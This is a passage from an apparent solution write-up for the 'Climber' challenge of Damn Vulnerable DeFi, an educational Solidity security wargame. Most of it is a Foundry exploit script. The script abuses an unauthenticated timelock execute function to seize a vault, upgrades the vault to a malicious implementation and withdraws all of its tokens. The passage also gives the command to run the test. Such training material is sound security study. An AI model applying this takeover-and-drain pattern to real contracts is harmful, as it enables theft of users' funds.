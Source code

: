 ```solidity
values[1] = 0;
dataElements[1] = abi.encodeWithSignature("grantRole(bytes32,address)", vaultTimelock.PROPOSER_ROLE(), address(middleman));

// call the external middleman contract to schedule the operation with the needed data
targets[2] = address(middleman);
values[2] = 0;
dataElements[2] = abi.encodeWithSignature("scheduleOperation(address,address,address,bytes32)", attacker, address(vault), address(vaultTimelock), salt);

// anyone can call the `execute` function, there's no auth check over there
vm.prank(attacker);
vaultTimelock.execute(targets, values, dataElements, salt);

// at this point `attacker` is the owner of the ClimberVault and he can do what ever he wants
// For example we could upgrade to a new implementation that allow us to do whatever we want
// Deploy the new implementation
vm.startPrank(attacker);
PawnedClimberVault newVaultImpl = new PawnedClimberVault();

// Upgrade the proxy implementation to the new vault
vault.upgradeTo(address(newVaultImpl));

// withdraw all the funds
PawnedClimberVault(address(vault)).withdrawAll(address(token));
vm.stopPrank();
```

You can find the full solution on GitHub, looking at [ClimberTest.t.sol](https://github.com/StErMi/forge-damn-vulnerable-defi/blob/main/src/test/climber/ClimberTest.t.sol)

If you want to try yourself locally, just execute `forge test --match-contract ClimberTest -vv`

## Disclaimer

All Solidity code, practices and patterns in this repository are DAMN VULNERABLE and for educational purposes only.

DO NOT USE IN PRODUCTION
